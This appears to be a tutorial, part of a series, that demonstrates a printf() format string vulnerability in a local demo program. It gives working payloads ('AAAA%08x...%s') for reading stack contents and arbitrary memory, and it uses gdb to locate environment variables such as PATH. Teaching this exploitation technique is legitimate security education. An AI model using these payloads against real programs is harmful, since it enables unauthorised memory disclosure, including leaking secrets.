 - Using the program from last week I am going to demonstrate how you can use the format string vulnerability in printf() to read any memory in the process' virtual address space.

- As we saw last time, we were able to print the contents of the stack. By passing in enough %08x templates, we saw that we were actually able to see the hexadecimal representation of our format string. 

- We can see that here by adding AAAA at the start, and as we know ascii 'A' == 0x41 

`echo "AAAA%08x.%08x.%08x.%08x" | ./demo`
`AAAAffcb7768.080491b2.ffcb63d4.41414141`

This pops a value from the stack and prints the hex representation of it four times. In practice, the 41414141 shows us that the fourth parameter reads from the beginning of our format string.

As we know from last time, the %s template will print a string located at the memory address that it's popped from the top of the stack. 

If we replaced the fourth %08x in our above example with a %s, the %s would attempt to print a string located at memory address 0x41414141. This address is not a valid address, so this would result in a segfault.

`echo "AAAA%08x.%08x.%08x.%s" | ./demo"`
`Segmentation Fault`

If we replaced this 0x41414141 with a valid memory address, we could use the %s template to print out the contents of that memory address as a string.


--- Finding PATH 

We can run gdb to find the location that the PATH environment variable is loaded into memory.

`gdb -q ./demo`
`break main`
`r`
`info var environ`
`x/8s *((char**)environ)`
e.g.
```
(gdb) x/8s *((char**)environ)
0xffffd461:     "SHELL=/bin/bash"
0xffffd471:     "SESSION_MANAGER=local/p-26-214-13-gtXA-1-c-asm-iof-desktop:@/tmp/.ICE-unix/759,unix/p-26-214-13-gtXA-1-c-asm-iof-desktop:/tmp/.ICE-unix/759"
0xffffd4fd:     "WINDOWID=37748743"
0xffffd50f:     "QT_ACCESSIBILITY=1"
0xffffd522:     "COLORTERM=truecolor"
0xffffd536:     "XDG_SESSION_PATH=/org/freedesktop/DisplayManager/Session0"
0xffffd570:     "LANGUAGE="
0xffffd57a:     "SSH_AUTH_SOCK=/tmp/ssh-SR0DqqfLGTPe/agent.628"
```

0xffffd461 is the start of the env var string when we load it via gdb.

When we are running programs within gdb, there may be slight differences in the memory layout. This is usually due to different environment variables.

This is not actually going to accurately represent the memory location of PATH when we run it, as it's going to be at a slightly different location because the length of the parameter  which contains the input we used to run the program will slightly offset it.
